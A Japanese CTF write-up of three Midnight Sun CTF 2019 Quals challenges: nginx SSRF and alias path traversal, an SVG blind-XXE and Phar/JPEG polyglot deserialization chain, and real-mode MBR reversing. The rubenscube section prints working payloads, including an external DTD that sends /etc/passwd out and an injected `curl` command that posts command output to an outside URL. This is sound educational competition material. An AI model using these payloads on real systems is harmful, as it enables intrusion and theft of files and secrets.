

4 月 6 日から 4 月 7 日にかけて開催された [Midnight Sun CTF 2019 Quals](https://midnightsunctf.se/) に、チーム Harekaze として [shpik](https://twitter.com/__Sehun_Oh__) さん、[Safflower](https://twitter.com/plzdonotsay) さん、[Hackability](https://twitter.com/ethan_tbkim) さんも一緒に参加しました。最終的にチームで 3217 点を獲得し、順位は得点 432 チーム中 23 位でした。うち、私は 3 問を解いて 1061 点を入れました。

以下、私が解いた問題の write-up です。

## Web
### bigspin (424)
> This app got hacked due to admin and uberadmin directories being open. Was just about to wget -r it, but then they fixed it :( Can you help me get the files again?
> Service: http://bigspin-01.play.midnightsunctf.se:3123

与えられた URL にアクセスすると、以下の 4 つのリンクが表示されました。

```html
<html>
    What's it gonna be? Are you an <a href="/uberadmin/">uberadmin</a>, an <a href="/admin/">admin</a>, a <a href="/user/">user</a>, or (most likely) just a <a href="/pleb/">pleb</a>?
</html>
```

それぞれアクセスしてみたところ、`/uberadmin/` `/user/` が `403 Forbidden`、`/admin/` が `404 Not Found` を返し、`/pleb/` のみが正常にコンテンツを返すという状態でした。

`/pleb/` は [example.com](https://example.com) と同じコンテンツでしたが、ここで [shpik](https://twitter.com/__Sehun_Oh__) さんが `/pleb:80` は `200 OK` を返し、`/pleb:22` では `504 Gateway Timeout` を返すことから [nginx の設定ミスによる SSRF](https://github.com/yandex/gixy/blob/master/docs/en/plugins/ssrf.md) ができるのではないかという推測をされていました。

つまり、`/pleb(ユーザ入力)` にアクセスするとサーバが `http://example.com(ユーザ入力)` にアクセスしてこのコンテンツを返しているのではないか、ということでした。

これを利用して、`/pleb.lvh.me/` (`*.lvh.me` は `127.0.0.1` に解決される) にアクセスすると `/` にアクセスしたときと同じように 4 つのリンクが表示されました。`/pleb.lvh.me/user/` にアクセスすると以下のように `/user/` にアクセスすることができました。

```html
<html>
<head><title>Index of /user/</title></head>
<body bgcolor="white">
<h1>Index of /user/</h1><hr><pre><a href="../">../</a>
<a href="nginx.c%C3%B6nf%20">nginx.cönf </a>                                       05-Apr-2019 11:51                1253
</pre><hr></body>
</html>
```

`nginx.cönf` も同様に `/pleb.lvh.me/user/nginx.c%25C3%25B6nf%2520` (二重にパーセントエンコーディングを行う必要があることに注意) にアクセスして取得します。

```
worker_processes 1;
user nobody nobody;
error_log /dev/stdout;
pid /tmp/nginx.pid;
events {
  worker_connections 1024;
}

http {

    # Set an array of temp and cache files options that otherwise defaults to
    # restricted locations accessible only to root.

    client_body_temp_path /tmp/client_body;
    fastcgi_temp_path /tmp/fastcgi_temp;
    proxy_temp_path /tmp/proxy_temp;
    scgi_temp_path /tmp/scgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    resolver 8.8.8.8 ipv6=off;

    server {
        listen 80;

        location / {
            root /var/www/html/public;
            try_files $uri $uri/index.html $uri/ =404;
        }

        location /user {
            allow 127.0.0.1;
            deny all;
            autoindex on;
            root /var/www/html/;
        }

        location /admin {
            internal;
            autoindex on;
            alias /var/www/html/admin/;
        }

        location /uberadmin {
            allow 0.13.3.7;
            deny all;
            autoindex on;
            alias /var/www/html/uberadmin/;
        }

        location ~ /pleb([/a-zA-Z0-9.:%]+) {
            proxy_pass   http://example.com$1;
        }

        access_log /dev/stdout;
        error_log /dev/stdout;
    }

}
```

`/admin` には内部でのリダイレクト、`/uberadmin` には `0.13.3.7` からのアクセスであった場合にのみ閲覧できるようです。

まず `/admin` から攻めていきましょう。[Module ngx_http_core_module](http://nginx.org/en/docs/http/ngx_http_core_module.html#internal) を参照すると、`Internal requests are … requests redirected by the “X-Accel-Redirect” response header field from an upstream server` と、`X-Accel-Redirect` ヘッダを使うことでアクセスができると書かれています。

以下のようなスクリプトを用意して `php -S 0.0.0.0:8080` でサーバを立ち上げます。

```php
<?php
header("X-Accel-Redirect: ${_SERVER['PATH_INFO']}");
exit(0);
```

[nip.io](http://nip.io/) を使うと `example.com.(IP アドレス).nip.io` が `(IP アドレス)` に解決されることを利用して、`/pleb.(IP アドレス).nip.io:8080/index.php/admin/` にアクセスすると以下のように `/admin/` にアクセスすることができました。

```html
<html>
<head><title>Index of /admin/</title></head>
<body bgcolor="white">
<h1>Index of /admin/</h1><hr><pre><a href="../">../</a>
<a href="flag.txt">flag.txt</a>                                           08-Mar-2019 00:17                  73
</pre><hr></body>
</html>
```

`/admin/flag.txt` も `/pleb.(IP アドレス).nip.io:8080/index.php/admin/flag.txt` で取得します。

```
hmmm, should admins really get flags? seems like an uberadmin thing to me
```

`/uberadmin/` にフラグがあるようです。…が、`0.13.3.7` からのアクセスというのはとてもできそうにありません。ここで再度 `/admin/` の設定を見直します。

```
location /admin {
    internal;
    autoindex on;
    alias /var/www/html/admin/;
}
```

`alias` ディレクティブが使われていますが、`location /admin` とスラッシュで終わっていないので、例えば `/admin../` のようなリクエストを送ることで[パストラバーサル](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md)ができます。

これを利用して、`/pleb.(IP アドレス).nip.io:8080/index.php/admin../uberadmin/` にアクセスすると `/uberadmin/` のファイル一覧を取得できました。

```html
<html>
<head><title>Index of /admin../uberadmin/</title></head>
<body bgcolor="white">
<h1>Index of /admin../uberadmin/</h1><hr><pre><a href="../">../</a>
<a href="flag.txt">flag.txt</a>                                           15-Mar-2019 23:52                  38
</pre><hr></body>
</html>
```

`/uberadmin/flag.txt` も `/pleb.(IP アドレス).nip.io:8080/index.php/admin../uberadmin/flag.txt` で取得します。

```
midnight{y0u_sp1n_m3_r1ght_r0und_b@by}
```

### rubenscube (424)
> Sharing is caring. For picture wizard use only.
> Service: http://ruben-01.play.midnightsunctf.se:8080

与えられた URL にアクセスすると、`Hello Human! I'm PicBot! You can share photos by uploading them to me!` としゃべるロボットと画像がアップロードできるフォームが表示されました。

ここでは [Safflower](https://twitter.com/plzdonotsay) さんによって SVG がアップロードでき、また Blind XXE ができることが分かっていました。

[Blind XXE经典payload引发的脑洞 \| 回忆飘如雪](http://gv7.me/articles/2018/think-about-blind-xxe-payload/) を参考に、以下のようなペイロードで `/etc/passwd` の抽出ができました。

`evilt.dtd` (Gist 等にアップロードする)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://(URL)/?%file;'>">
%all;
```

`payload.svg`

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "(evilt.dtd をアップロードした URL)">
%dtd;
]>
<svg>&send;</svg>
```

ところが、`index.php` や `upload.php` などのソースコードを抽出しようとしても、`upload.php` は `500 Internal Server Error` を返すばかりで全く成功しません。ここで [shpik](https://twitter.com/__Sehun_Oh__) さんが `/robots.txt` が存在していることを発見しました。

```
User-agent: *
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
Disallow: source.zip
```

`/source.zip` にアクセスすることでこの Web アプリケーションのソースコードが得られました。

ファイルのアップロード処理を行う `upload.php` は以下のような内容でした。

```php
<?php
session_start();

function calcImageSize($file, $mime_type) {
    if ($mime_type == "image/png"||$mime_type == "image/jpeg") {
        $stats = getimagesize($file);  // Doesn't work for svg...
        $width = $stats[0];
        $height = $stats[1];
    } else {
        $xmlfile = file_get_contents($file);
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
        $svg = simplexml_import_dom($dom);
        $attrs = $svg->attributes();
        $width = (int) $attrs->width;
        $height = (int) $attrs->height;
    }
    return [$width, $height];
}


class Image {

    function __construct($tmp_name)
    {
        $allowed_formats = [
            "image/png" => "png",
            "image/jpeg" => "jpg",
            "image/svg+xml" => "svg"
        ];
        $this->tmp_name = $tmp_name;
        $this->mime_type = mime_content_type($tmp_name);

        if (!array_key_exists($this->mime_type, $allowed_formats)) {
            // I'd rather 500 with pride than 200 without security
            die("Invalid Image Format!");
        }

        $size = calcImageSize($tmp_name, $this->mime_type);
        if ($size[0] * $size[1] > 1337 * 1337) {
            die("Image too big!");
        }

        $this->extension = "." . $allowed_formats[$this->mime_type];
        $this->file_name = sha1(random_bytes(20));
        $this->folder = $file_path = "images/" . session_id() . "/";
    }

    function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
    }

    function __destruct()
    {
        if (!file_exists($this->folder)){
            mkdir($this->folder);
        }
        $file_dst = $this->folder . $this->file_name . $this->extension;
        move_uploaded_file($this->tmp_name, $file_dst);
        $this->create_thumb();
    }
}

new Image($_FILES['image']['tmp_name']);
header('Location: index.php');
```

ほとんど普通の処理ですが、一部気になる箇所があります。

```php
<?php
︙
class Image {
︙
    function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
    }

    function __destruct()
    {
        if (!file_exists($this->folder)){
            mkdir($this->folder);
        }
        $file_dst = $this->folder . $this->file_name . $this->extension;
        move_uploaded_file($this->tmp_name, $file_dst);
        $this->create_thumb();
    }
}
︙
```

もしどこかで Insecure Deserialization ができれば、`Image` オブジェクトをデシリアライズさせることで `__destruct` を呼び出すことができ、さらに `create_thumb` 内の `system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);` で OS コマンドインジェクションができます。

ここで思い出されるのは、[細工された Phar ファイルを作り、`file_exists` 等の関数から `phar://` ストリームラッパーを使ってアクセスすれば任意のオブジェクトが作れる](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It%27s-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf)というテクニックです。

`upload.php` は PNG か JPEG、SVG のいずれかでなければファイルのアップロードを拒否しますが、Phar ファイルのヘッダはある程度自由なので PNG 等との polyglot を作ることもできます。

まず Phar と JPEG の polyglot を作るスクリプトを書きます。

```php
<?php
// php -d phar.readonly=0 go.php
define('JPEG_DATA', hex2bin('ffd8ffe000104a46494600010101007800780000ffdb0043000201010201010202020202020202030503030303030604040305070607070706070708090b0908080a0807070a0d0a0a0b0c0c0c0c07090e0f0d0c0e0b0c0c0cffdb004301020202030303060303060c0807080c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0c0cffc00011080001000103012200021101031101ffc4001f0000010501010101010100000000000000000102030405060708090a0bffc400b5100002010303020403050504040000017d01020300041105122131410613516107227114328191a1082342b1c11552d1f02433627282090a161718191a25262728292a3435363738393a434445464748494a535455565758595a636465666768696a737475767778797a838485868788898a92939495969798999aa2a3a4a5a6a7a8a9aab2b3b4b5b6b7b8b9bac2c3c4c5c6c7c8c9cad2d3d4d5d6d7d8d9dae1e2e3e4e5e6e7e8e9eaf1f2f3f4f5f6f7f8f9faffc4001f0100030101010101010101010000000000000102030405060708090a0bffc400b51100020102040403040705040400010277000102031104052131061241510761711322328108144291a1b1c109233352f0156272d10a162434e125f11718191a262728292a35363738393a434445464748494a535455565758595a636465666768696a737475767778797a82838485868788898a92939495969798999aa2a3a4a5a6a7a8a9aab2b3b4b5b6b7b8b9bac2c3c4c5c6c7c8c9cad2d3d4d5d6d7d8d9dae2e3e4e5e6e7e8e9eaf2f3f4f5f6f7f8f9faffda000c03010002110311003f00fdfca28a2803ffd9'));

$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.svg', '<svg></svg>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

class Image {}
$object = new Image;
$object->folder = '-help; curl "(URL)" -d `ls | base64 -`; #';
$object->file_name = 'a';
$object->extension = 'a';
$phar->setMetadata($object);

$phar->setStub(JPEG_DATA . '<?php __HALT_COMPILER();');
$phar->stopBuffering();
```

`php -d phar.readonly=0 go.php` で Phar と JPEG の polyglot を作り、アップロードします。アップロード後のパスを確認し、以下のような SVG を作ります。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE svg [
<!ENTITY file SYSTEM "phar://images/(polyglot のパス)/test.svg">
]>
<svg>&file;</svg>
```

これをアップロードすると、以下のような HTTP リクエストボディを持つリクエストが来ました。

```
flag_dispenser
gallery.php
images
index.php
robots.txt
so
```

`flag_dispenser` というファイルがあるようです。実行するコマンドを `ls` から `./flag_dispenser` に変えると、以下のようなリクエストが来ました。

```
Flag: midnight{R3lying_0n_PHP_4lw45_W0rKs}
```

フラグが得られました。

```
midnight{R3lying_0n_PHP_4lw45_W0rKs}
```

## Re
### hfs-mbr (213)
> We made a military-grade secure OS for HFS members. Feel free to beta test it for us!
> Service: stty -icanon -echo ; nc hfs-os-01.play.midnightsunctf.se 31337 ; stty sane
> 添付ファイル: hfs-os.tar.gz

与えられたファイルを展開すると、`README` `run` `dos.img` などのファイルが出てきました。

`README` は以下のような内容でした。

```
HFS-OS
./run debug (gdb stub) or ./run

How to debug with IDA
In IDA > Debugger > Attach > Remote debugger (host:1234) > (Debug options > Set specific options, UNCHECK 'software breakpoints at eip+1', CHECK 'use CS:IP in real mode')  > OK  
When attached, Debugger > Manual memory regions > Insert > CHECK 16bit segment > OK  
In the IDA-View, press G, 0x7c00 is where the bootloader starts. Set a BP > F9
```

`run` は以下のような内容でした。

```bash
#! /bin/bash

if [ "$1" = "debug" ] ; then
    cd bin && ./qemu-system-i386 -s -S -m 16 -k en-us -rtc base=localtime -nographic -drive file=../dos.img -boot order=c
else
    cd bin && ./qemu-system-i386 -m 16 -k en-us -rtc base=localtime -nographic -drive file=../dos.img -boot order=c
fi
```

`qemu-system-i386.exe -m 16 -k en-us -rtc base=localtime -drive file=dos.img -boot order=c` で実行します。



正しいパスワードを入力すればよいようです。Freeware 版の IDA を利用して逆アセンブルしていきましょう。

眺めていると、`0x7e37` から以下のような気になる処理がありました。

```
seg000:7E37 loc_7E37:
seg000:7E37                 mov     bh, 1
seg000:7E39                 mov     ah, 0
seg000:7E3B                 int     16h             ; read character
seg000:7E3D                 cmp     al, 61h
seg000:7E3F                 jl      loc_8004
seg000:7E43                 cmp     al, 7Ah
seg000:7E45                 jg      loc_8004
seg000:7E49                 mov     ah, 0Eh
seg000:7E4B                 int     10h             ; write character
seg000:7E4D                 xor     ah, ah
seg000:7E4F                 mov     dl, al
seg000:7E51                 sub     al, 61h
seg000:7E53                 shl     al, 1
seg000:7E55                 xor     bx, bx
seg000:7E57                 mov     bl, al
seg000:7E59                 mov     ax, 8026h
seg000:7E5C                 add     bx, ax
seg000:7E5E                 mov     ax, [bx]
seg000:7E60                 jmp     ax
︙
seg000:8004 loc_8004:
seg000:8004                 mov     si, 818Ah       ; "\r\nWr0ng password! SELF DESTRUCTION ACTIVATED!\r\n"
seg000:8007                 call    sub_7E2B
seg000:800A
seg000:800A loc_800A:
seg000:800A                 mov     ax, 5301h
seg000:800D                 xor     bx, bx
seg000:800F                 int     15h
seg000:8011                 mov     ax, 530Eh
seg000:8014
seg000:8014 loc_8014:
seg000:8014                 xor     bx, bx
seg000:8016                 mov     cx, 102h
seg000:8019
seg000:8019 loc_8019:
seg000:8019                 int     15h
seg000:801B                 mov     ax, 5307h
seg000:801E
seg000:801E loc_801E:
seg000:801E                 mov     bx, 1
seg000:8021                 mov     cx, 3
seg000:8024
seg000:8024 loc_8024:
seg000:8024                 int     15h             ; power off
```

[BIOS interrupt call - Wikipedia](https://en.wikipedia.org/wiki/BIOS_interrupt_call) を参考にしながら読むと、1 文字ユーザ入力を受け付けたあと、この文字が `a` から `z` の範囲内であれば `((short *) 0x8026)[(ユーザ入力) - 'a']` にジャンプしているようです。範囲外であれば `\r\nWr0ng password! SELF DESTRUCTION ACTIVATED!\r\n` を表示して電源を切っているようです。

ジャンプテーブルとして使われている `0x8026` は以下のような配列でした。

```
seg000:8026                 dw 7E62h, 7E6Bh, 7E74h, 7E7Dh, 7E86h, 7EA7h, 7EB0h, 7EB9h
seg000:8026                 dw 7EC2h, 7ECBh, 7EDFh, 7EE8h, 7EF1h, 7EFAh, 7F10h, 7F24h
seg000:8026                 dw 7F46h, 7F4Fh, 7F65h, 7F75h, 7F7Dh, 7F96h, 7F9Eh, 7FB6h
seg000:8026                 dw 7FBEh, 7FC6h
```

ジャンプ先を見ていきましょう。まず `a` や `b` などの処理です。

```
seg000:7E62 loc_7E62:
seg000:7E62                 mov     ax, 0DEADh
seg000:7E65                 mov     ax, 0C0DEh
seg000:7E68                 jmp     loc_7FD9
```

`ax` レジスタを操作するだけの処理を行った後 `0x7fd9` にジャンプしています。

`e` や `j` などは以下のようにそれぞれ別の処理を行っています。

```
seg000:7E86                 mov     ax, 0DEADh
seg000:7E89                 xor     dl, ds:byte_81BA
seg000:7E8D                 xor     ax, ax
seg000:7E8F                 add     al, 10h
seg000:7E91                 add     al, 10h
seg000:7E93                 add     al, 10h
seg000:7E95                 add     al, 10h
seg000:7E97                 add     al, 10h
seg000:7E99                 add     al, 10h
seg000:7E9B                 sub     dl, al
seg000:7E9D                 cmp     dl, 2
seg000:7EA0                 jnz     loc_7FD9
seg000:7EA4                 jmp     loc_7FCE
```

もし `cmp` の後 `ZF` が立っていれば `0x7fce` に、そうでなければ `a` などと同様 `0x7fd9` にジャンプしています。

`0x7fce` と `0x7fd9` の処理を見ていきます。

```
seg000:7FCE loc_7FCE:
seg000:7FCE
seg000:7FCE                 inc     ds:byte_81BB
seg000:7FD2                 cmp     ds:byte_81BB, 9
seg000:7FD7                 jz      short loc_7FE7
seg000:7FD9
seg000:7FD9 loc_7FD9:
seg000:7FD9
seg000:7FD9                 inc     ds:byte_81BA
seg000:7FDD                 cmp     ds:byte_81BA, 9
seg000:7FE2
seg000:7FE2 loc_7FE2:
seg000:7FE2                 jz      short loc_8004
seg000:7FE4                 jmp     loc_7E37
seg000:7FE7 loc_7FE7:
seg000:7FE7                 mov     si, 8156h       ; "\r\nCorrect password! Press any key to load HFS-OS!\r\n"
seg000:7FEA                 call    sub_7E2B
seg000:7FED                 mov     bh, 1
seg000:7FEF                 mov     ah, 0
seg000:7FF1                 int     16h             ; $!
seg000:7FF3                 mov     ax, 201h
seg000:7FF6                 mov     cx, 3
seg000:7FF9                 xor     dh, dh
seg000:7FFB                 mov     dl, 80h
seg000:7FFD                 mov     bx, 7C00h
seg000:8000                 int     13h             ; $!
seg000:8002                 jmp     bx
seg000:8004 loc_8004:
︙
```

`0x81bb` が `9` のときに `Correct password!` と表示される処理にジャンプしていることから、これは正解した文字数であることが推測できます。

あとは `gdb` 等で `0x7fce` にブレークポイントを置き、`0x7fce` に飛ぶ可能性のある処理を行っている `ejnoprsuw` からそれぞれ総当たりしていくと、`sojupwner` がパスワードであることが分かりました。`nc hfs-os-01.play.midnightsunctf.se 31337` を実行してこれを入力してみましょう。

```
$ nc hfs-os-01.play.midnightsunctf.se 31337
︙
[HFS SECURE BOOT] Loading  ...
.-. .-.----.----.   .-.   .-.----..----.  
| {_} | {_{ {__     |  `.'  | {}  | {}  } 
| { } | | .-._} }   | |\ /| | {}  | .-. \ 
`-' `-`-' `----'    `-' ` `-`----'`-' `-' 
Enter the correct password to unlock the Operating System
[HFS_MBR]> sojupwner
︙
[HFS SECURE SHELL] Here is your flag for HFS-MBR: midnight{w0ah_Sh!t_jU5t_g0t_RE
ALmode} 
[HFS SECURE SHELL] loaded at 100f:0100 (0x101f0) and ready for some binary carna
ge!

[HFS-DOS]>
```

フラグが得られました。

```
midnight{w0ah_Sh!t_jU5t_g0t_REALmode} 
```